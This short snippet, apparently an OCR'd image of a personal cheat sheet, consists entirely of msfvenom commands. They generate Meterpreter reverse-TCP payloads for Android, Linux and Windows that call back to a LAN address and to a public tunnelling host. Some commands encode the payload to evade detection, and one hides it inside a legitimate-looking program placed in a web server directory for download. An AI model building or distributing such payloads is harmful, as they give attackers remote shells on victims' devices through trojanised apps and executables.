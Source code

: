 '''
# 安卓
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.53 LPORT=4444 R > xuegod.apk
# linux
msfvenom -a x64 --platform linux -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.1.53 LPORT=4444 -b "\x00" -i 10 -f elf -o /var/www/html/xuegod
# windows
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.1.53 LPORT=4444 -b"\x00" -e x86/shikata_ga_nai -i 10 -x QvodTerminal.exe -f exe -o /var/www/html/QvodTerminal.exe
'''



msfvenom -a x64 --platform Windows -p windows/x64/meterpreter/reverse_tcp  LHOST=free.idcfengye.com LPORT=10482 -f exe -o sunny.exe



msfvenom -a x64 --platform linux -p linux/x64/meterpreter/reverse_tcp LHOST=free.idcfengye.com LPORT=10482 -b "\x00" -i 10 -f elf -o xuegod



msfvenom -p  android/meterpreter/reverse_tcp LHOST=free.idcfengye.com LPORT=10482 -o sunny.apk

